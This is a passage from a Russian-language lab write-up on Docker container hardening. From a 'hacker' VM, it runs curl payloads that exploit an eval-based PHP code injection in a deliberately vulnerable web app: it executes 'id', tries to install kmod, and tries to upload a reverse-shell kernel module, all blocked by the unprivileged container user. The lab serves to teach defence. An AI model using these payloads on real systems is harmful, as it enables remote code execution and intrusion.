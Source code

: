 ```
  Successfully tagged victim_webapp:latest
  Recreating victim_webapp_1 ... done
```

Теперь выполним проверку с хоста `hacker`:
```
$ vagrant ssh hacker
vagrant@hacker:~$ curl -G 192.168.50.4 --data-urlencode "code=system('id');"
  <h1> Hello world!</h1>
  uid=1000 gid=0(root) groups=0(root)
  <br>
```

Как мы видим приложение запущено из под пользователя с UID=1000.
Тем не менее попробуем установить необходимые пакеты:
```
vagrant@hacker:~$ curl -G 192.168.50.4 --data-urlencode "code=system('apt-get update 2>&1 && apt-get install -y libcap2-bin kmod 2>&1');"
  <h1> Hello world!</h1>
  Reading package lists...
  E: List directory /var/lib/apt/lists/partial is missing. - Acquire (13: Permission denied)
  <br>
```

Несмотря на то что установить `kmod` не удалось попробуем загрузить модуль
```
vagrant@hacker:~$ cd /vagrant/hacker/
vagrant@hacker:/vagrant/hacker$ curl -X POST 192.168.50.4/?code=move_uploaded_file%28%24_FILES%5B%27shell%27%5D%5B%27tmp_name%27%5D%2C%20%27reverse-shell.ko%27%29%3B -F 'shell=@reverse-shell.ko'
  <h1> Hello world!</h1>
  <br />
  <b>Warning</b>:  move_uploaded_file(reverse-shell.ko): failed to open stream: Permission denied in <b>/app/index.php(3) : eval()'d code</b> on line <b>1</b><br />
  <br />
  <b>Warning</b>:  move_uploaded_file(): Unable to move '/tmp/phpXpL5E6' to 'reverse-shell.ko' in <b>/app/index.php(3) : eval()'d code</b> on line <b>1</b><br />
  <br>
```

В лоб загрузить не удалось. Есть возможность попробовать загрузить
в папку `tmp`. Но да же после этого выполнить команду `insmod` не
удасться.
1. kmod - не установлен и команды `insmod` просто нет
2. У не привелигированного пользователя нет прав для выполнения этой операции.


## Solution II

Не всегда есть возможность запускать docker-контейнер сразу из под
не привилегированного пользователя. Иногда перед запуском основного
приложения необходимо выполнить ряд операций необходимых для его работы.
Например:
- создать директории для логов или изменить их владельца;
- сгенерировать конфигурационные файлы;
- и пр.
